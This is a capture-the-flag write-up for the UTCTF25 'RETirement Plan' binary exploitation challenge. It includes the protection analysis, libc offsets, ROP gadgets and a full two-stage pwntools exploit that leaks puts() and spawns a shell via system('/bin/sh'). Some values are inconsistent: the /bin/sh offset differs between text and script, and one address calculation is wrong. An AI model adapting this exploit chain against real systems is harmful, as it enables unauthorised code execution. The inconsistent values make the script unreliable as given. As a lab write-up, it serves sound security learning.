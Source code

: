 # WriteUp for **RETirement Plan** @ UTCTF25  

## Category: Binary Exploitation / Pwn  

### Challenge Overview  
Upon opening the challenge, we are given:  

- A **binary** file  
- A **libc** file  

---

## Binary Analysis  

### Checking Security Protections  
We analyze the binary with `checksec` and get the following output:  

```
Arch:       amd64-64-little  
RELRO:      Partial RELRO  
Stack:      No canary found  
NX:         NX unknown - GNU_STACK missing  
PIE:        No PIE (0x3fe000)  
Stack:      Executable  
RWX:        Has RWX segments  
Stripped:   No  
```

### Observations  
- **No stack canary** → Buffer overflow is possible  
- **NX is not enabled** → Code execution on the stack is possible  

---

## Reverse Engineering the Binary  

Let's decompile the binary using **Ghidra**:

![Binary](decompiled.png)  

The binary performs the following operations:  

1. **Outputs text** using `puts()`  
2. **Reads user input** into a **48-byte buffer** using `gets()` (**vulnerable to buffer overflow**)  
3. **Transforms each character** based on the following logic:  
   - If **lowercase** → `char - 0x25`  
   - If **uppercase** → `char - 0x65`  

Since the program does **not** directly reveal the flag, we must execute `system("/bin/sh")` to gain a shell.

---

## Finding Offsets in libc  

Since **ASLR is enabled**, addresses are randomized, but **offsets remain constant**.  
We need the addresses of `system()` and `"/bin/sh"`.

### Extracting Offsets  

#### `system()` Offset:  
By running **libc in GDB**:  
```
gdb-peda$ p system  
$1 = {<text variable, no debug info>} 0x453a0 <system>
```
**Offset of `system`:** `0x453a0`

#### `"/bin/sh"` Offset:  
```
strings -t x libc-2.23.so | grep /bin/sh
```
Output:  
```
18ce57 /bin/sh
```
**Offset of `/bin/sh`:** `0x18ce57`

#### `puts()` Offset:  
```
gdb-peda$ p puts  
$1 = {<text variable, no debug info>} 0x6f6a0 <puts>
```
**Offset of `puts`:** `0x6f6a0`

### Plan of Attack  

1. **Leak the libc base address** using `puts()`.
2. **Call main again** using main's addr.
3. **Calculate system and "/bin/sh" addresses** using known offsets.  
4. **Exploit buffer overflow** to call `system("/bin/sh")`.

---

## Finding Main

So now we need to get the main() address    
If we use cylic to crash the program and check it using gdb we can see that the main address is 0x40070d - 247 = **0x400616**
![main](main.png)

---

## Finding ROP Gadgets  

Using **ROPgadget** to find useful instructions:  

```
ROPgadget --binary ./shellcode | grep "pop rdi"
```

```
0x0000000000400793 : pop rdi ; ret
0x00000000004004a9 : ret
```

### Explanation  
- **pop rdi; ret** → Allows control over the `rdi` register (1st argument to functions).  
- **ret** → Used for stack alignment.  

To call `system("/bin/sh")`, we need:  
1. `pop rdi; ret` → Load `/bin/sh` into `rdi`  
2. `ret` (optional for alignment)  
3. Call `system()`  

---

## Exploit Script  

```
python
from pwn import *

# Load binary and libc
elf = context.binary = ELF('./shellcode')
libc = ELF('./libc-2.23.so')
p = process('./shellcode')

# Address to prevent crashes (mov eax, 0x0)
add = 0x400600  

# Receive initial output
p.recv()

# === Stage 1: Leak puts() address ===
payload = b'A' * 47        # Padding (47 A's)  
payload += b'F'            # Marker for reference  
payload += p64(add)        # Overwrite return address  
payload += 16 * b'b'       # Extra padding  
payload += p64(0x400793)   # pop rdi; ret  
payload += p64(elf.got.puts)  # Address of puts() in GOT  
payload += p64(elf.plt.puts)  # Call puts()  
payload += p64(0x400616)   # Return to main()  

p.sendline(payload)

# Parse leaked puts() address
p.recvuntil(b'F')
output = p.recvuntil(b'
').strip()
puts_addr = u64(output.ljust(8, b' '))

# Calculate addresses
libc_base = puts_addr - 0x6f6a0  
system_addr = libc_base + 0x453a0  
bin_sh = libc_base + 0x18ce67  

# === Stage 2: Exploit buffer overflow to get shell ===
payload2 = b'C' * 48        # Padding  
payload2 += p64(add)        # Overwrite return address  
payload2 += 16 * b'b'       # Extra padding  
payload2 += p64(0x4004a9)   # ret (stack alignment)  
payload2 += p64(0x400793)   # pop rdi; ret  
payload2 += p64(bin_sh)     # Address of "/bin/sh"  
payload2 += p64(system_addr)  # Call system("/bin/sh")  

p.sendline(payload2)

# Get interactive shell
p.interactive()
```

---

## Exploit Execution  

1. **First Payload:**  
   - Overwrites the return address.  
   - Calls `puts()` to leak its address from **GOT**.  
   - Returns to `main()` for second-stage execution.  

2. **Second Payload:**  
   - Calculates **libc base address**.  
   - Computes `system()` and `/bin/sh` addresses.  
   - Calls `system("/bin/sh")` to spawn a shell.  

### Successfully Getting the Flag  
![flag](flag.png)  

---

## Summary  

- **Vulnerability:** Buffer Overflow  
- **Goal:** Call `system("/bin/sh")`  
- **Method:**  
  1. Leak **puts()** address from GOT.  
  2. Compute **libc base address**.  
  3. Find **system()** and `"/bin/sh"` offsets.  
  4. Construct **ROP chain** to call `system("/bin/sh")`.  
  5. **Exploit buffer overflow** to execute the attack.  

---

## Final Thoughts  

This challenge demonstrates:  
- Finding **libc offsets** in ASLR-enabled binaries.  
- Using **ROP gadgets** to manipulate program flow.  
- Exploiting **buffer overflows** to achieve **remote code execution**.
